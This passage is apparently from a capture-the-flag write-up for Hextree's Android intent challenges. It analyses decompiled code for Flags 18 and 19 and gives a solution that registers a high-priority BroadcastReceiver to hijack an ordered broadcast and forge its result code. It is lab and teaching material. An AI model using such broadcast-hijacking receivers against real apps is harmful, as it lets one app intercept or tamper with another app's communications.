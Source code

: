 ```java
                Log.i("Flag18Activity.BroadcastReceiver", "resultCode " + resultCode);
                if (resultCode != 0) {
                    Utils.showIntentDialog(context, "BroadcastReceiver.onReceive", intent2);
                    Flag18Activity flag18Activity = Flag18Activity.this;
                    flag18Activity.success(flag18Activity);
                }
            }
        }, null, 0, null, null);

```

This activity will send an ordered broadcast with action `"io.hextree.broadcast.FREE_FLAG"` and wait wait for a respond and when it get's the result an integer named `resultCode` is checked if it has non zero value , if true we get our flag  :0

#### Solution
so we need to create a receiver  with right action filter and `setResultCode` either ok or set a number 

```java
BroadcastReceiver hijacker = new BroadcastReceiver() {  
    @Override  
    public void onReceive(Context context, Intent intent) {  
        setResultCode(Activity.RESULT_OK);   
        setResultData("Intercepted!");
    }  
};
IntentFilter filter = new IntentFilter("io.hextree.broadcast.FREE_FLAG");  
filter.setPriority(999); // Make sure you run first if other apps sent broadcasts 
registerReceiver(hijacker, filter, null, null);
```

or just create  a one liner receiver

```java
registerReceiver(hijacker, new IntentFilter("io.hextree.broadcast.FREE_FLAG"));
```

### Flag 19
#### Code analysis
```java
    public void onReceive(Context context, Intent intent) {
        Bundle bundleExtra;
        String action = intent.getAction();
        if (action == null || !action.contains("APPWIDGET_UPDATE") || (bundleExtra = intent.getBundleExtra("appWidgetOptions")) == null) {
            return;
        }
        int i = bundleExtra.getInt("appWidgetMaxHeight", -1);
        int i2 = bundleExtra.getInt("appWidgetMinHeight", -1);
        if (i == 1094795585 && i2 == 322376503) {
            success(context);
        }
    }
```

